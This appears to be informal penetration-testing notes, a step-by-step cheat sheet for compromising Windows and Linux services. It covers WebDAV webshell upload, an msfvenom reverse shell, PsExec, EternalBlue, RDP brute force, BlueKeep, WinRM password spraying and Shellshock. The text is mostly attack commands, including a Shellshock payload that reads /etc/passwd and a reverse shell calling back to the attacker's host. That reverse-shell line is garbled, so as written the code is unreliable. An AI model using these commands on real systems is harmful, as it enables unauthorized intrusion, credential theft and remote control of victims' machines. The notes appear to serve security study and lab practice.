 
-  WINDOWS

-Microsoft IIS + WebDAV: (port 80/443)

Can execute .asp .aspx .config & .php files

davtest (used for scan, authenticate & exploit a WebDAV server)

davtest -url http://IPobj/webdav (without creds)

davtest -auth user:pass -url http://IPobj/webdav (this tells you the types of files we can upload and execute)

  
cadaver (upload files;download;screen display;edit;move;copy;create & erase collections;change the owener & block resources in WebDAV servers)

cadaver –help

cadaver http://IPobj/webdav (and input the credentials)

in other terminal: ls -al /usr/share/webshells (asp in this case)

after in cadaver: put /usr/share/webshells/asp/webshell.asp (config the shell if neccesary)

Come back again to the web page and try to execute the web shell typing the directory. 


-Microsoft IIS + WebDAV METASPLOIT:

Method 1:

msfvenom -p /windows/meterpreter/reverse_tcp LHOST=IPkali LPORT=x -f asp > shell.asp (reverse shell payload in asp)

after: cadaver http://IPobj/webdav input credentials and upload the revshell with the put command

Open metasploit: service postgresql start && msfconsole -> use multi/handler -> set payload windows/meterpreter/reverse_tcp (config exactly as the payload that we created with msfvenom), run it go to the web page, execute the payload uploaded and we got a reverse shell.

Method 2:

search iis upload -> use 1 -> show options & config it -> set path /webdav/metasploit.asp -> exploit


-EXPLOITING SMB WITH PSEXEC:


To use PsExec we need credentials (user & pass) or a hash if we haven't the pass.

  
use: psexec.py user@IPobj cmd.exe


Para meterpreter:


search psexec -> use 10 (exploit/windows/smb/psexec) -> configurate and run.



-ETERNALBLUE (Metasploit or python script from searchsploit). MS17-010 & CVE-2017-0144

Eternalblue is easy bruh.


-EXPLOITING RDP: (normally 3389 TCP)


Requires an account of the victim PC (username & password)


metasploit rdp_scanner (to see the version of RDP)

then bruteforce (with hydra for example) if we get an account with privileges is better.

xfreerdp /u:user /p:password /v:IPobj:RDPport (to connect via RDP to the victim machine)
  

-BLUEKEEP: CVE-2019-0708:
  

METASPLOIT: search bluekeep (use the auxiliar module to see if it's vulnerable)

then search bluekeep -> use 1 (only works for x64 bits targets) -> show options (config as needed) -> show targets (choose the right one)
  

-EXPLOITING WinRM: (5985 TCP y 5986 HTTPS)

Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)


Remote administration protocol for Windows hosts.


Exploitation:

  
crackmapexec to see the help panel

crackmapexec WinRM IPobj -u administrator -p /wordlistpass (to get credentials of a privileged user, Administrator always exists on windows)

crackmapexec winrm IPobj -u administrator -p pass -x “whoami” (to try RCE)

evil-winrm(.rb) -u administrator -p ‘passadmin’ -i IPobj (to obtain a shell of the victim)


METASPLOIT:

search winr_script_exec -> use 0 -> show options (y configurar) -> set force_vbs true -> set username y password -> exploit (it may not work, try a few times)


- LINUX:


-SHELLSHOCK: (CVE-2014-6271)


The shellshock vulenrability happens because a vulnerability in bash (old versions), bash executes commands after this instruction: (){:;};

Apache webservers configured to run cgi scripts or sh scripts may be vulnerable to this (those scripts are in /cgi-bin/ directory)

To exploit this vulnerability you have to find a script that is running through bash.

In the context of an apache webserver we could use any .cgi script stored in there.

EXPLOITING SHELLSHOCK:

We connect to the web page through the web explorer.

In the source code we see this:

	In <script> we see that executes a .cgi file, access to the script through the URL.

Check if it's vulnerable con: nmap -sV IPobj –script=http-shellshock –script-args “http-shellshock.uri=/script.cgi”

MANUAL EXPLOITATION:

With burpsuite intercept the page IPobj/script.cgi -> right click -> send to repeater -> change the user-agent for: (){:;}; echo; echo; /bin/bash -c ‘cat /etc/passwd’ -> send , in response we get the output of the command executed. THIS IS A RCE SO YOU CAN USE /usr/bin/whoami for example.

MANUAL REVERSE SHELL:

nc -nlvp port (on local machine)

Go back to burpsuite repeater and in user-agent put this: (){:;}; echo; echo; /bin/bash -c ‘bash -i&/dev/tcp/IPkali/LPORTnetcat 0>&1’and we obtain the reverse shell.

METASPLOIT:

search shellshock -> use 5 (exploit/multi/http/apache_mod_cgi_bash_env_exec) -> show options -> set targeturi script.cgi -> exploit


